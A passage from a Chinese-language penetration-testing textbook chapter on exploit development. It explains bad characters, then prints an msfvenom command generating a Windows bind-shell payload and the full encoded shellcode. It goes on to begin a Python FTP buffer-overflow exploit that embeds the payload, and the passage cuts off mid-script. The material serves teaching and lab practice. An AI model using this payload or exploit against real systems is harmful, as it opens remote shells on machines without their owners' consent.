 ### 注意

查找坏字符是一个高级主题，超出了本书的范围，所以请相信我，这些是适用于此利用的正确字符。这些坏字符是有原因的：空字节（null byte）终止字符串，回车符（carriage return）和换行符（line feed）表示新的一行，*＠* 将破坏 *user@server* 的 FTP 登录语法。欲了解更多信息，请查看我的博客文章“使用 Immunity Debugger 和 Mona.py 查找坏字符”（*[`www.bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/`](http://www.bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/)*）。

将这些信息输入到 Msfvenom 中，如示例 17-6 所示。

示例 17-6. 使用 Msfvenom 生成 shellcode

```
root@kali:~# **msfvenom -p windows/shell_bind_tcp -s 607 -b '\x00\x40\x0a\x0d'**
[*] x86/shikata_ga_nai succeeded with size 368 (iteration=1)
buf =
"\xda\xd4\xd9\x74\x24\xf4\xba\xa6\x39\x94\xcc\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\xb2\xdb\x61\x30" +
"\x52\x92\x8a\xc9\xa2\xc5\x03\x2c\x93\xd7\x70\x24\x81\xe7" +
"\xf3\x68\x29\x83\x56\x99\xba\xe1\x7e\xae\x0b\x4f\x59\x81" +
"\x8c\x61\x65\x4d\x4e\xe3\x19\x8c\x82\xc3\x20\x5f\xd7\x02" +
"\x64\x82\x17\x56\x3d\xc8\x85\x47\x4a\x8c\x15\x69\x9c\x9a" +
"\x25\x11\x99\x5d\xd1\xab\xa0\x8d\x49\xa7\xeb\x35\xe2\xef" +
"\xcb\x44\x27\xec\x30\x0e\x4c\xc7\xc3\x91\x84\x19\x2b\xa0" +
"\xe8\xf6\x12\x0c\xe5\x07\x52\xab\x15\x72\xa8\xcf\xa8\x85" +
"\x6b\xad\x76\x03\x6e\x15\xfd\xb3\x4a\xa7\xd2\x22\x18\xab" +
"\x9f\x21\x46\xa8\x1e\xe5\xfc\xd4\xab\x08\xd3\x5c\xef\x2e" +
"\xf7\x05\xb4\x4f\xae\xe3\x1b\x6f\xb0\x4c\xc4\xd5\xba\x7f" +
"\x11\x6f\xe1\x17\xd6\x42\x1a\xe8\x70\xd4\x69\xda\xdf\x4e" +
"\xe6\x56\xa8\x48\xf1\x99\x83\x2d\x6d\x64\x2b\x4e\xa7\xa3" +
"\x7f\x1e\xdf\x02\xff\xf5\x1f\xaa\x2a\x59\x70\x04\x84\x1a" +
"\x20\xe4\x74\xf3\x2a\xeb\xab\xe3\x54\x21\xda\x23\x9b\x11" +
"\x8f\xc3\xde\xa5\x3e\x48\x56\x43\x2a\x60\x3e\xdb\xc2\x42" +
"\x65\xd4\x75\xbc\x4f\x48\x2e\x2a\xc7\x86\xe8\x55\xd8\x8c" +
"\x5b\xf9\x70\x47\x2f\x11\x45\x76\x30\x3c\xed\xf1\x09\xd7" +
"\x67\x6c\xd8\x49\x77\xa5\x8a\xea\xea\x22\x4a\x64\x17\xfd" +
"\x1d\x21\xe9\xf4\xcb\xdf\x50\xaf\xe9\x1d\x04\x88\xa9\xf9" +
"\xf5\x17\x30\x8f\x42\x3c\x22\x49\x4a\x78\x16\x05\x1d\xd6" +
"\xc0\xe3\xf7\x98\xba\xbd\xa4\x72\x2a\x3b\x87\x44\x2c\x44" +
"\xc2\x32\xd0\xf5\xbb\x02\xef\x3a\x2c\x83\x88\x26\xcc\x6c" +
"\x43\xe3\xfc\x26\xc9\x42\x95\xee\x98\xd6\xf8\x10\x77\x14" +
"\x05\x93\x7d\xe5\xf2\x8b\xf4\xe0\xbf\x0b\xe5\x98\xd0\xf9" +
"\x09\x0e\xd0\x2b"
```

Msfvenom 生成的 shellcode 大小为 368 字节，给我们留出了足够的空间。将漏洞利用中的*D*替换为生成的 shellcode，如示例 17-7 所示。

示例 17-7. 我们完成的漏洞利用

```
root@kali:~# **cat ftpexploit**
#!/usr/bin/python
import socket
shellcode = ("\xda\xd4\xd9\x74\x24\xf4\xba\xa6\x39\x94\xcc\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\xb2\xdb\x61\x30" +
"\x52\x92\x8a\xc9\xa2\xc5\x03\x2c\x93\xd7\x70\x24\x81\xe7" +
"\xf3\x68\x29\x83\x56\x99\xba\xe1\x7e\xae\x0b\x4f\x59\x81" +
"\x8c\x61\x65\x4d\x4e\xe3\x19\x8c\x82\xc3\x20\x5f\xd7\x02" +
"\x64\x82\x17\x56\x3d\xc8\x85\x47\x4a\x8c\x15\x69\x9c\x9a" +
"\x25\x11\x99\x5d\xd1\xab\xa0\x8d\x49\xa7\xeb\x35\xe2\xef" +
"\xcb\x44\x27\xec\x30\x0e\x4c\xc7\xc3\x91\x84\x19\x2b\xa0" +
"\xe8\xf6\x12\x0c\xe5\x07\x52\xab\x15\x72\xa8\xcf\xa8\x85" +
"\x6b\xad\x76\x03\x6e\x15\xfd\xb3\x4a\xa7\xd2\x22\x18\xab" +
"\x9f\x21\x46\xa8\x1e\xe5\xfc\xd4\xab\x08\xd3\x5c\xef\x2e" +
"\xf7\x05\xb4\x4f\xae\xe3\x1b\x6f\xb0\x4c\xc4\xd5\xba\x7f" +
"\x11\x6f\xe1\x17\xd6\x42\x1a\xe8\x70\xd4\x69\xda\xdf\x4e" +
"\xe6\x56\xa8\x48\xf1\x99\x83\x2d\x6d\x64\x2b\x4e\xa7\xa3" +
"\x7f\x1e\xdf\x02\xff\xf5\x1f\xaa\x2a\x59\x70\x04\x84\x1a" +
```